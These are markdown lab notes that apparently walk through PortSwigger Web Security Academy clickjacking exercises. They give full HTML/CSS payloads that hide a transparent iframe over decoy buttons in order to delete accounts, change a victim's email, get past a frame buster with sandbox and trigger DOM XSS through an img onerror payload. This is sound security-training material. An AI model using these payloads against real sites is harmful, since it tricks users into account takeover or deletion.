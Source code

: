 # Clickjacking Notes

## Methodology

Based on the HTML from the first lab you can create an iframe that displays over a users account page

## Labs walkthrough

### Basic clickjacking with CSRF token protection

- In the exploit server craft a payload like:

```
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

- we need to change our lab id, setting our height and width variables to fit correctly, recommended is to start with 700px and 500px
- then we need to adjust the top and side values so that the "test me" decoy action aligh with "delecte accounts" button, suggested start with 300px and 60px
- set opacity to .01
- click store and view exploit to see if the iframe does place correctly, if not adjust the top and side values
- once correct change "test me" to "click me" and deliver to victim

### Clickjacking with form input data prefilled from a URL parameter

- this attack will change a users email, code crafted for it:

```
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

- follow same steps as above, adjust height and width
- adjust top and side value to cover the update email button
- set opacity to .001
- store and test, if works change "test me" to "click me"
- deliver to victim

### Clickjacking with a frame buster script

the frame buster attempts to stop the site from being put into an iframe, the usage of `sandbox="allow-forms"` disables the frame buster script
- we are going to attempt to change email like above with this code:

```
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

- follow same steps as above, adjust height and width
- adjust top and side value to cover the update email button
- set opacity to .001
- store and test, if works change "test me" to "click me"
- deliver to victim

### Exploiting clickjacking vulnerability to trigger DOM-based XSS

Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the print() function

code:

```
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
	div {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
</style>
<div>Test me</div>
<iframe
src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

- follow same steps as above, adjust height and width
- adjust top and side value to cover the "submit feedback" page button
- set opacity to .001
- store and test, if works change "test me" to "click me"
- deliver to victim

### Multistep clickjacking

To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions

code:

```
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:$top_value1;
		left:$side_value1;
		z-index: 1;
	}
   .secondClick {
		top:$top_value2;
		left:$side_value2;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

- follow same steps as above, adjust height and width
- adjust top and side value to cover the "delete account" button with the "test me first" attribute, and the "test me next" on the confirmation button
- set opacity to .001
- store and test, if works change "test me" to "click me"
- deliver to victim

